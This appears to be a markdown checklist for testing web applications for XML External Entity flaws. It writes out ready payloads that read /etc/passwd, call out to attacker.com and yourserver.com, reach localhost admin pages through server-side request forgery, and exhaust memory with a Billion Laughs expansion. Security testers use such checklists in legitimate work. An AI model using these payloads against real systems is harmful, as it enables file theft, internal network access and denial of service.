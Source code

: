 ```yaml
---
legal-banner: true
---
```


1.  **Initial Information Gathering**
    - [ ] Identify and map all endpoints that accept XML input.
    - [ ] Review source code (if available) to understand XML parsing mechanisms.
    - [ ] Check for user inputs in XML request bodies, SOAP messages, and API endpoints.

2.  **Basic XXE Testing**
    - [ ] Test with a basic XXE payload to identify vulnerabilities:
    ```xml
    <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
    <foo>&xxe;</foo>
    ```
    - [ ] Inject the payload in different parts of the XML (e.g., elements, attributes).

3.  **XXE Payloads**
    - [ ] Test for blind XXE using out-of-band (OOB) techniques:
    ```xml
    <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "http://attacker.com/xxe" >]>
    <foo>&xxe;</foo>
    ```
    - [ ] Test for SSRF (Server-Side Request Forgery):
    ```xml
    <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "http://localhost:8080/admin" >]>
    <foo>&xxe;</foo>
    ```
    - Test for file inclusion vulnerabilities with common files:
        - [ ] `/etc/passwd`
        - [ ] `/etc/hosts`
        - [ ] `C:\Windows\win.ini`

4.  **Parameter Entities and XML Injection**
    - [ ] Test with parameter entities:
    ```xml
    <!DOCTYPE foo [
      <!ENTITY % xxe SYSTEM "file:///etc/passwd" >
      <!ENTITY xxe "<!ENTITY evil SYSTEM 'file:///etc/passwd' >" >]>
    <foo>&xxe;</foo>
    ```
    - [ ] Test XML injection to manipulate the structure and content:
    ```xml
    <root>
      <data>
        <xxe>&xxe;</xxe>
      </data>
    </root>
    ```
    
5.  **Recursive Entities**
    - [ ] Test for recursive entity expansion (Billion Laughs Attack):
    ```xml
    <!DOCTYPE lolz [
      <!ENTITY lol "lol">
      <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
      <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
      <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
      <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
      <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
      <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
      <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
      <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
      <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
    ```
    
6.  **Out-of-Band (OOB) Detection**
    - [ ] Set up an OOB endpoint to detect blind XXE:
    ```xml
    <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "http://yourserver.com/xxe" >]>
    <foo>&xxe;</foo>
    ```
    - [ ] Use tools like Burp Collaborator to capture OOB interactions.

7.  **Error Handling and Response Analysis**
    - [ ] Analyze server responses for clues about XXE vulnerabilities.
    - [ ] Look for error messages that disclose file paths or other sensitive information.
    - [ ] Verify if application stack traces are exposed in responses.

8.  **SOAP Services**
    - [ ] Test SOAP-based services for XXE vulnerabilities:
    ```xml
    <soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
      <soap:Body>
        <foo>&xxe;</foo>
      </soap:Body>
    </soap:Envelope>
    ```